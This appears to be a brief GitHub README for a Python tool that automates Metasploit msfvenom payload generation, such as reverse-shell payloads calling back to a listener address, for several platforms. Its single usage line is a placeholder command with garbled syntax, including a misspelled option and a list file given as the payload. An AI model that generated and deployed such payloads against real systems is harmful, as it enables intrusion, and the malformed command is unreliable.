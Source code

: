 # Payload_Generation_Automation_tool
This script automate payload generation process using Msfvenom exploit tool. We can generate payload for all plaforms. By simply add list (ex: win_list.txt) as input and generate payload as per our requirements.

# Requirement
Os: kalilinux
Programming language : Python3
Env: VM workstation

# Usage
msfvenom -p win_list -a <architecture(x86 or x64)> --enocoders LHOST=<local_ip> LPORT=<local_port> -formats
